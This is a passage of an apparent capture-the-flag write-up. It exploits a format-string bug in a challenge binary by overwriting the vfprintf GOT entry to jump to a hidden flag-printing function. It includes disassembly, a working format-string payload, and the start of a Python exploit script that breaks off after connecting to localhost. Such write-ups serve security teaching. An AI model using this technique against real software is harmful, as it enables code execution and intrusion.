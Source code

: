 I did all this to print the string at the memory address that is given by the binary... to no avail. The final piece of the puzzle was the `fopen` call that opens the file `/home/booty/flag`:

```bash
 80487c0:	53                   	push   %ebx
 80487c1:	83 ec 10             	sub    $0x10,%esp
 80487c4:	68 60 9a 04 08       	push   $0x8049a60	# 'r'
 80487c9:	68 61 98 04 08       	push   $0x8049861	# "/home/booty/flag"
 80487ce:	e8 6d fd ff ff       	call   8048540 <fopen@plt>
 80487d3:	83 c4 10             	add    $0x10,%esp
 80487d6:	85 c0                	test   %eax,%eax
 80487d8:	89 c3                	mov    %eax,%ebx
 80487da:	75 19                	jne    80487f5 <vfprintf@plt+0x285>
 80487dc:	eb 33                	jmp    8048811 <vfprintf@plt+0x2a1>
 80487de:	66 90                	xchg   %ax,%ax
 80487e0:	83 ec 08             	sub    $0x8,%esp
 80487e3:	0f be d0             	movsbl %al,%edx
 80487e6:	ff 35 a4 a1 04 08    	pushl  0x804a1a4
 80487ec:	52                   	push   %edx
 80487ed:	e8 fe fc ff ff       	call   80484f0 <_IO_putc@plt>
 80487f2:	83 c4 10             	add    $0x10,%esp
 80487f5:	83 ec 0c             	sub    $0xc,%esp
 80487f8:	53                   	push   %ebx
 80487f9:	e8 e2 fc ff ff       	call   80484e0 <_IO_getc@plt>
 80487fe:	83 c4 10             	add    $0x10,%esp
 8048801:	3c ff                	cmp    $0xff,%al
 8048803:	75 db                	jne    80487e0 <vfprintf@plt+0x270>
 8048805:	83 ec 0c             	sub    $0xc,%esp
 8048808:	53                   	push   %ebx
 8048809:	e8 b2 fc ff ff       	call   80484c0 <fclose@plt>
 804880e:	83 c4 10             	add    $0x10,%esp
 8048811:	83 ec 0c             	sub    $0xc,%esp
 8048814:	6a 00                	push   $0x0
 8048816:	e8 f5 fc ff ff       	call   8048510 <exit@plt>
```

It seems like this function is never called, yet it does open the flag and spits out the contents. I verified this from within `gdb` by running `set $eip=0x80487c0` and then continuing execution. Indeed, it spat out the bogus flag of my local system. I leveraged the string format vulnerability to overwrite a got pointer force the binary to execute that function. I chose to overwrite `vfprintf`, because that's called a lot by the binary. I needed to overwrite this pointer in two steps. First, the lower two bytes are overwritten with `0x87c0`. Then the higher two bytes are overwritten with `0x0804`. When the binary then wants to call `vfprintf`, code execution is redirected to `0x80487c0`!

The exploit now sends the first username: `cmd ="%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%34719c%36$hn%32836c%37$n"`. This contains the `%` character and the rest of the format string. I found the proper offset for the direct addressing (`%36$hn`) simply by trying a few values together with a name that contained "AAAABBBBCCCC" blocks. The rest of the padding (`%34719c` for instance) is simply by running `gdb` and taking note of the address where the binary crashes. Adding the right amount of padding, observing the crash again, etc.

The final exploit:

```python
#!/usr/bin/python

from socket import *
from time import sleep
import telnetlib, struct

s=socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 7778))

# wait before continuing, allows attaching with gdb.
raw_input()

```